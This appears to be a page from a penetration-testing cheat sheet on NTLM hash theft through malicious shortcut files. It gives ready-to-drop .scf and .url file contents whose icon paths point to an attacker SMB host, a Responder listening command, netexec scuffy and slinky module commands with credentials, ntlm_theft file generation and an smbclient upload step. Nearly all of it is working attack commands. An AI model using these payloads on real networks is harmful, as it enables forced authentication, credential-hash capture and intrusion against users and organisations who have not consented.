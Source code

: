 ## NTLM Stealing / URI attacks

[#coerce-with-files](../../post-exploitation/windows/ad/exploitation.md#coerce-with-files "mention")

{% code overflow="wrap" fullWidth="true" %}
```bash
https://swisskyrepo.github.io/InternalAllTheThings/active-directory/internal-shares/#write-permission

If there is any interaction/authentication and we can upload files -> place .scf file
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/
https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.scf
https://github.com/xct/hashgrab


################### SCF / LNK files
# Drop the following @something.scf file inside a share and start listening with Responder : responder -wrf --lm -v -I eth0
[Shell]
Command=2
IconFile=\\10.10.10.10\Share\test.ico
[Taskbar]
Command=ToggleDesktop

# Using netexec:
netexec smb 10.10.10.10 -u username -p password -M scuffy -o NAME=WORK SERVER=IP_RESPONDER #scf
netexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER #lnk
netexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER CLEANUP


https://github.com/Greenwolf/ntlm_theft

# -g all: Generate all files.
# -s: Local IP (attacker IP)
# -f: Folder to store generated files.
python3 ntlm_theft -g all -s <local-ip> -f samples

smbclient -N //10.0.0.1/example

smb> put samples.lnk
@test.url
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\$ATTACKING_IP\share\test.icon
IconIndex=1

# Another option
IconFile=\\$ATTACKING_IP\%USERNAME%.icon
```
{% endcode %}
